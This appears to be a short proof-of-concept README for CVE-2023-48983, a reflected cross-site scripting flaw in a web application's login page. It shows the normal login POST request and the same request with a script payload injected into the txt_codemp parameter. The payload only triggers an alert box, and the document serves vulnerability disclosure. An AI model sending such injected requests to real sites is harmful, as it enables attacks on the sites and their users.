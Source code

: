 # CVE-2023-48983
POC CVE-2023-48983
## Request Post original for login index.php
```
sessao=f2928a10-95cf-4a6d-9e15-cb75721244fe&txt_tipo_acesso=0&aplEmp=zzz&txt_esqueci_senha=N&txt_conceitoNovoSenha=S&txt_codemp=01&txt_aux_codemp=&txt_tipo_login=1&txt_cpf_cnpj=&txt_apelido_TB=&txt_codusr=1&txt_senha=1&txt_codvend=999999&txt_cpf_cnpj_vend=&txt_senha_1=&txt_codemp_vend=00&txt_esqueci_cpfcnpj=&txt_esqueci_email=&txt_end_prgs=
```

## Resquest Post with payload for index.php
PARAMETER txt_codemp
```
sessao=f2928a10-95cf-4a6d-9e15-cb75721244fe&txt_tipo_acesso=0&aplEmp=zzz&txt_esqueci_senha=N&txt_conceitoNovoSenha=S&txt_codemp=01'"()%26%25<zzz><script>alert('tristao')</script>&txt_aux_codemp=&txt_tipo_login=1&txt_cpf_cnpj=&txt_apelido_TB=&txt_codusr=1&txt_senha=1&txt_codvend=999999&txt_cpf_cnpj_vend=&txt_senha_1=&txt_codemp_vend=00&txt_esqueci_cpfcnpj=&txt_esqueci_email=&txt_end_prgs=
```

![CVE-2023-48983](https://github.com/tristao-marinho/CVE-2023-48983/blob/main/Pasted%20image%2020240101095847.png?raw=true)



